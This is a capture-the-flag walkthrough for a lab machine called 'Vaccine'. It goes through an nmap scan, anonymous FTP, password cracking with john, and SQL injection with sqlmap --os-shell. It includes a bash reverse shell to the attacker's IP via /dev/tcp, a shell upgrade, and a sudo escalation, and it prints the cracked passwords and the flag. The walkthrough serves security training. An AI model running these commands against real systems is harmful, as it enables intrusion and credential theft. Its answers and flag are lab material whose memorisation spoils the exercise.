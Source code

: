 ## Vaccine Solution

### Besides SSH and HTTP, what other service is hosted on this box?
1. Run an nmap scan with the `-sV` (version of services) `-sC`(default scripts for service discovery and vulnerability detection) 
   ```bash
   nmap -sV -sC {target_machine_ip}
   nmap -sC -sV 10.129.251.21
   ```
![Screenshot 2024-02-19 at 8 50 14 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/6e42d6b3-b7cf-4f42-978f-8213b6bb9f10)

**Answer: ftp**

### This service can be configured to allow login with any password for specific username. What is that username? 

As with the nmap results above the `sC` option was able to determine that **Anonymous FTP login allowed**. If you do a google search the username for this is usually `anonymous`

**anonymous**

## What is the name of the file downloaded over this service?

1. Let's connect via ftp

```bash
ftp {target_machine_ip}
```

2. For username just use `anonymous` and just enter blank password.
3. Enter `ls` and you will find `backup.zip`
4. Run `get backup.zip`

![Screenshot 2024-02-19 at 11 41 56 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/5a467605-0e2d-44f8-b10c-26c3235f9790)



**Answer: backup.zip**

### What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

1. We try to unzip the backup.zip however a password is required.
   ![Screenshot 2024-02-20 at 12 00 57 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/ae3c46ff-0939-4956-8cc9-8d8c92440424)


2. Do a quick google search and you will find the answer

**Answer: zip2john** 


##What is the password for the admin user on the website?

1. Let's run the `zip2john` script to crack the password. First let's obtain the password hashes.
   ```bash
   zip2john backup.zip > zip.txt
   ```
 
   ![Screenshot 2024-02-20 at 11 08 05 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/1a4ac24e-c684-4583-8f3d-77fd3d0e2db3)

2. Then let's crack the password for the backup.zip
   ```bash
   john zip.txt   
   ```
   ![Screenshot 2024-02-20 at 11 08 56 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/ed883cff-3296-4b69-b6cb-88d6a3d2633a)


3. Now let's unzip backup.zip with the password `741852963`. This gives us two files `index.php` and `style.css`
   ```bash
   unzip backup.zip
   ```
![Screenshot 2024-02-20 at 11 10 22 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/d214ebb6-65ae-4578-ab97-ad4f922a922b)

4. Now let's investigate the index.php `vim index.php`. Here we find a hashed password `2cb42f8734ea607eefed3b70af13bbd3` for the username `admin`. 
   
![Screenshot 2024-02-20 at 11 21 43 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/89307436-b4f4-4097-8c85-98c40531cd06)

5. Let's analyze the hash type by going on any hash analyzer. We use [https://hashes.com/en/tools/hash_identifier](https://hashes.com/en/tools/hash_identifier) in this case and find that it is MD5 format.

   ![Screenshot 2024-02-20 at 11 35 10 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/f49117bb-77a6-4b85-beab-f66fc95b04db)


6. Create a file called `admin-hash.txt` then insert the hash found in the previous step. Let's crack the hash password using john
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 admin-hash.txt
```
![Screenshot 2024-02-20 at 11 42 25 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/39740423-3616-4cf0-a75f-c1af601dd2e7)


**Answer: qwerty789**


## What option can be passed to sqlmap to try to get command execution via the sql injection?

1. Login using username `admin` and password `qwerty789`
2. Go to browser and get the cookie `PHPSESSID` value
![Screenshot 2024-02-22 at 12 45 40 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/9954818a-ad05-4789-9292-8b6e202e1b8a)



3. Next as we view with the page after we login, we can see one possible form to attack with SQL injection. We observe that submitting it appends a query parameter `search`
![Screenshot 2024-02-22 at 12 49 49 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/6f874149-cb51-4d73-81a8-488be978f271)

4. Let's use sqlmap and run the following.

```bash
sqlmap -u "http://{target_ip}/dashboard.php?search=test" --cookie="PHPSESSID={cookie_value}" --os-shell

sqlmap -u "http://{target_ip}/dashboard.php?search=test" --cookie="PHPSESSID={cookie_value}" --os-shell --os-shell
```
5. We have spawned a os-shell with user postgres. However executing `sudo -l` does not yield any meaningful results. The os-shell is limited in commands it can execute. It is not interactive 

![Screenshot 2024-02-22 at 12 56 35 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/508193c6-850c-405d-89c9-8c13377c2e08)

5. Let's go to our attack machine and create a netcat listner server

```bash
  nc -lvnp 5000
```

6. On our target machine running sqlmap os-shell let's connect to our server to spawn a reverse shell.

```bash
 bash -c  "bash -i >& /dev/tcp/{attack_machine_ip}/5000  0>&1"

```

7. We have spawned a reverse shell however we do not have an interactive shell yet.
![Screenshot 2024-02-22 at 1 11 58 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/e4502837-7e73-4692-8d16-6c07b0d3aae5)

8. Run the following to have an interactive shell. 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo
export TERM=xterm
```

9. We now have an interactive shell. Hovever we have to know the password of user `postgres` to run `sudo -l`
    
![Screenshot 2024-02-22 at 2 00 25 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/f39b4b0a-70c7-45ab-954f-325620f72896)

10. We have to find the password in the system. And since this server running a website, one of the places we can look at is `/var/www/`
![Screenshot 2024-02-22 at 2 26 14 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/60fdfdc5-b94d-487a-8b70-c05438972859)

11. Let's explore each of the files in the `html` folder. Under the `dashboard.php` file we find. 

![Screenshot 2024-02-22 at 2 32 15 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/2582d9ed-becf-4bd2-be03-eb392cde88b0)


12. We test this password by using it for the password prompt for `sudo -l` Where we find that we have sudo rights for vi program.

![Screenshot 2024-02-22 at 2 10 53 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/752994b0-6b2d-4cf4-9aa4-9fa83b68a295)

**Answer: vi ** 


11. Run `cd ~/` to go to postgres user's folder. In here we will find user.txt
    Flag `ec9b13ca4d6229cd5cc1e09980965bf7`


